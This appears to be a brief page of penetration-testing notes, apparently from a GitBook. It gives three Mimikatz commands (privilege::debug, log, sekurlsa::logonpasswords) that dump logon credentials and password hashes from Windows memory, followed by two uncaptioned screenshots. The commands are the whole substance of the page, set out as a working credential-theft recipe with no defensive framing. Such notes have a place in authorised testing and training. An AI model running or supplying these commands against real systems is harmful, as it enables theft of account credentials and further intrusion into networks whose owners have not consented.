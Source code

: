 ```yaml
---
hidden: true
---
```


# Page

This commands dumps the hashes from memory in thee current session:

```shell-session
mimikatz # privilege::debug
mimikatz # log nameoflog.log
mimikatz # sekurlsa::logonpasswords
```

<figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

